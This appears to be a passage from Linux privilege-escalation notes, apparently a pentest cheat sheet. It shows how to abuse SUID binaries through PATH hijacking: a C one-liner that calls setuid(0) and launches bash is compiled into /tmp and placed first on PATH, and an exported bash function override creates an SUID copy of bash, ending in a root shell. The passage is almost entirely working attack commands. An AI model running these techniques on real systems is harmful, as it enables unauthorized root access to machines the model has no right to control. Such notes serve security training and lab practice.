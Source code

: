 ```bash
cd /tmp
gcc shell.c -o shell
export PATH=/tmp:$PATH
./file_having_SUID_permissions
```

## Environmental Variables

#### Example 1

```python
/usr/local/bin/suid-env
strings /usr/local/bin/suid-env
...SNIP...
.
.
.
service apache2 start
```

```bash
echo 'int main() { setuid(0); setgid(0); system("/bin/bash"); return 0;}' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service

export PATH=/tmp:$PATH

/usr/local/bin/suid_env

root@debian:~#
```

#### Example 2

```python
/usr/local/bin/suid-env2
strings /usr/local/bin/suid-env2
...SNIP...
.
.
.
/usr/sbin/service apache2 start
```

```python
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
export -f /usr/sbin/service
/usr/local/bin/suid-env2
.
.
.
root@debian:~#
```

## Capabilities
